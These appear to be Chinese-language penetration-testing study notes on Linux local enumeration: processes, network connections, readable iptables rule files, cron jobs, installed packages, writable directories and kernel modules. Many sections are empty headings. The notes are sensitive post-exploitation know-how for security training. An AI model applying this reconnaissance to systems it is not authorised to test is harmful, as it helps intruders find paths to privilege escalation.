##### 当前用户


##### 其他用户


##### hostname


##### 系统信息


##### 进程与服务

> 在Linux上，我们可以使用ps命令列出系统进程（包括特权用户运行的进程）。我们将使用a和x参数列出所有有或没有tty的进程，并使用u参数以用户可读的格式列出进程


##### 网络信息




我们可以使用-a列出所有连接，使用-n避免主机名解析（这可能会使命令执行停滞），并使用-p列出连接所属的进程名称


##### 防火墙规则

> 默认情况下，Debian Linux上的iptables-persistent软件包会将防火墙规则保存在/ etc / iptables目录下的特定文件中。系统在启动时使用这些文件来还原netfilter465rules。这些文件通常只具有较弱的权限，从而允许目标系统上的任何本地用户读取它们。我们还可以搜索iptables-save命令创建的文件，该命令用于将防火墙配置转储到用户指定的文件中。然后，该文件通常用作iptables-restore命令的输入，并用于在引导时还原防火墙规则。如果系统管理员曾经运行过此命令，我们可以搜索配置目录（/ etc）或grep文件系统中的iptables命令来查找该文件。如果文件具有不安全的权限，我们可以使用内容推断系统上运行的防火墙配置规则。

##### 计划任务

> 基于Linux的作业调度程序称为Cron调度的任务在/etc/cron.*目录下列出，其中*表示任务运行的频率。例如，可以在/etc/cron.daily下找到每天运行的任务。每个脚本都在其自己的子目录中列出。


##### 枚举安装的程序及版本

基于Linux的系统使用各种程序包管理器。例如，基于Debian的Linux发行版使用dpkg，而基于Red Hat的系统使用rpm。



##### 枚举可读/可写文件和目录

> 在Linux操作系统上，我们可以使用`find`来识别权限不安全的文件。在以下示例中，我们正在搜索目标系统上当前用户可写的每个目录。我们搜索整个根目录（/），并使用`-writable`来指定我们感兴趣的属性。我们还使用`-type d`来定位目录，并使用`2> / dev / null`过滤错误


##### 枚举未挂载的硬盘


##### 枚举设备驱动程序和内核模块

在Linux上，我们可以使用`lsmod`枚举已加载的内核模块，而无需任何其他参数


一旦我们有了已加载模块的列表并确定了我们想要了解的信息，例如上面的示例中的libata，我们就可以使用`modinfo`查找有关特定模块的更多信息。请注意，此工具需要**完整的路径名**才能运行


### 自动枚举脚本




略。很多的

